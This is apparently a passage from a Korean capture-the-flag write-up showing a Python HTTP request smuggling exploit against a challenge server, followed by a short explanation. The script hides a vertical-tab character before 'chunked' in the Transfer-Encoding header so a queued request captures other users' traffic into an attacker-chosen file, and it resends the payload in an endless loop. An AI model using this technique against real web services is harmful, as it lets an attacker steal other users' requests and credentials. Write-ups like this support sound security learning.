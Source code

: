 ```python
    
    return data

href = 'https://uploooadit.oooverflow.io/files/'
host = urlparse(href).netloc

second_packet = b'POST /files/ HTTP/1.1\r\n'
second_packet += b'Content-Type: text/plain\r\n'
second_packet += b'X-guid: 22099301-d68e-4dfb-996f-1626f3158b5e\r\n'
second_packet += b'Content-Length: 100\r\n'
second_packet += b'X-Foo: bar\r\n\r\n'

smuggle_packet = b'POST /files/ HTTP/1.1\r\n'
smuggle_packet += b'Host: uploooadit.oooverflow.io\r\n'
smuggle_packet += b'Content-Type: text/plain\r\n'
smuggle_packet += b'X-guid: 22099301-d68e-4dfb-996f-1626f3158b5e\r\n'
smuggle_packet += b'Content-Length: ' + str(len(second_packet)+11).encode() + b'\r\n'
smuggle_packet += b'Connection: keep-alive\r\n'
smuggle_packet += b'Transfer-Encoding: \x0bchunked\r\n\r\n'

smuggle_packet += b'1\r\n'
smuggle_packet += b'A\r\n'
smuggle_packet += b'0\r\n\r\n'

smuggle_packet += second_packet

while True:
    print(smuggle_packet.decode())
    data = send_payload(host, smuggle_packet)
    print(data.decode())
```

Transfer-Encoding 헤더에 chunked 앞에 \x0b를 이용하여 HTTP Request Smuggling 취약점을 발현시킵니다. 이후 second_packet으로 전송되는 내용이 백엔드 서버의 버퍼에 남아 다음 요청과 함께 처리되므로 타인이 요청한 패킷이 X-guid 헤더로 전송한 파일로 저장됩니다.

![/assets/f21ac0a4-5c4f-4e26-aeb8-fdbac22da22e/d897eb4d-1e61-44f3-bd66-a400c73acc50.png](/assets/f21ac0a4-5c4f-4e26-aeb8-fdbac22da22e/d897eb4d-1e61-44f3-bd66-a400c73acc50.png)
